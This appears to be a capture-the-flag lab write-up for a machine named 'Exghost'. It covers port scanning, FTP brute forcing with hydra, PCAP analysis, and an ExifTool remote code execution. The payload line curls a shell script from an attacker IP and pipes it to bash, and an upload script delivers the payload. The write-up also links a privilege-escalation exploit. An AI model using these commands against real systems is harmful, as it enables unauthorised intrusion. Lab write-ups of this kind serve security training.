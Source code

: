 # Exghost

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.183.183
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 20:36 +08
Nmap scan report for 192.168.183.183
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE
21/tcp open   ftp
80/tcp open   http
```

FTP and HTTP.

### Port 80 Dead End

Port 80 just shows a 403 page:

<figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

Running directory scans only shows one directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.183 -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.183
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/11 20:54:36 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 320] [--> http://192.168.183.183/uploads/]
```

### FTP Brute Force --> Wireshark

Anonymous credentials don't work with this FTP system, and because we had no other choice, I started brute forcing the FTP login with `hydra`. This took quite a while, but eventually I found some credentials:

{% code overflow="wrap" %}
```
$ hydra -I -L /usr/share/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/seclists/Passwords/cirt-default-passwords.txt 192.168.183.183 ftp

[21][ftp] host: 192.168.183.183  login: user  password: system
```
{% endcode %}

Great! Now we can login and view the files present:

```
$ ftp 192.168.183.183 
Connected to 192.168.183.183.
220 (vsFTPd 3.0.3)
Name (192.168.183.183:kali): user
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0          126151 Jan 27  2022 backup
```

The `backup` file was a PCAP file:

{% code overflow="wrap" %}
```
$ file backup         
backup: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
```
{% endcode %}

We can open this up in `wireshark` and view the TCP streams. Within TCP Stream 1, we can find this HTTP request:

<figure><img src="../../../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

Seems that we are able to upload files through POST requests at `exiftest.php`:

```
$ curl http://192.168.183.183/exiftest.php
There is no file to upload.
```

From the PCAP file, we can actually export the `exiftest.php` file:

<figure><img src="../../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

Interestingly the second `exiftest.php` was the response, and here's the contents:

```
$ cat exiftest\(1\).php 
File uploaded successfully :)<pre>ExifTool Version Number         : 12.23
File Name                       : phpopnW14.jpg
Directory                       : /var/www/html/uploads
File Size                       : 14 KiB
File Modification Date/Time     : 2022:01:27 14:47:37+02:00
File Access Date/Time           : 2022:01:27 14:47:37+02:00
File Inode Change Date/Time     : 2022:01:27 14:47:37+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 120
Y Resolution                    : 120
Image Width                     : 253
Image Height                    : 257
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 253x257
Megapixels                      : 0.065
</pre>
```

### File Upload --> Exiftool RCE

It appears that the website is accepting images, and then running `exiftool` on it as a response. This version of `exiftool` is vulnerable to an RCE exploit.&#x20;

{% embed url="https://github.com/OneSecCyber/JPEG_RCE" %}

We can create the payload by following the PoC:

```
$ exiftool -config eval.config runme.jpg -eval='system("curl 192.168.45.184/shell.sh|bash")'
    1 image files updated
```

We can then upload it using this script:

```python
import requests
url = 'http://192.168.183.183/exiftest.php'
files = {'myFile': open('runme.jpg', 'rb')}
print(requests.post(url, files=files).text)
```

After uploading it, we would get a shell as `www-data`:

<figure><img src="../../../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Exploit --> Root

I ran a `linpeas.sh` scan on the machine. This found that `sudo` was outdated:

```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                 
Sudo version 1.8.31
```

{% embed url="https://github.com/joeammond/CVE-2021-4034" %}

We can just download the Python script and execute it to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>
